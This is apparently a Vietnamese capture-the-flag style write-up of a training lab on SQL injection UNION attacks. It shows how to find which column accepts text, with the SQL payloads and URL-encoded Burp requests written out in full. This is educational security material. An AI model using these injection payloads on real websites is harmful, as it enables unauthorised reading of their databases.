




# SQL Injection Lab 08: UNION Attack - Finding a Column Containing Text

## Mục tiêu
Xác định cột nào hỗ trợ kiểu dữ liệu text, sau đó hiển thị chuỗi yêu cầu của lab: `KOkBKp`.



## Các bước thực hiện
1. Dùng kết quả từ lab trước: query có **3 cột**.

2. Xác nhận lại payload `UNION` với 3 `NULL`:

```sql
' union select null, null, null --
```

Query trong Burp:

```http
GET /filter?category=%27%20union%20select%20null%2C%20null%2C%20null%20-- HTTP/2
```



3. Test cột text bằng cách thay `NULL` bằng chuỗi ở cột 1:

```sql
' union select 'aa', null, null --
```

Query trong Burp:

```http
GET /filter?category=%27%20union%20select%20%27aa%27%2C%20null%2C%20null%20-- HTTP/2
```

Kết quả lỗi `Internal Server Error` => cột 1 không phù hợp để chứa string trong ngữ cảnh này.



4. Đưa giá trị lab vào cột 2:

```sql
' union select null, 'KOkBKp', null --
```

Query trong Burp:

```http
GET /filter?category=%27%20union%20select%20null%2C%20%27KOkBKp%27%2C%20null%20-- HTTP/2
```

Response hiển thị `KOkBKp` và lab được solve.



## Payload solve

```sql
' union select null, 'KOkBKp', null --
```
